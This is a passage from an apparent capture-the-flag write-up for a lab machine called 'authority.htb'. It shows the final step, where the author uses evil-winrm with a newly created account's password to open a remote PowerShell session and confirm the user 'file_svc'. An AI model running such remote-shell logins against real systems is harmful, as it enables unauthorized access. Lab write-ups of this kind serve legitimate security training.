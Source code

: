 With the newly created user account, I am able to connect via WinRM and grab the `root.txt` flag.

```bash
$ evil-winrm -i authority.htb -u 'file_svc' -p 'lx422psz&lWm{C,'

Evil-WinRM shell v3.7

[...]

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\file_svc\Documents> write-output $env:username
file_svc
```
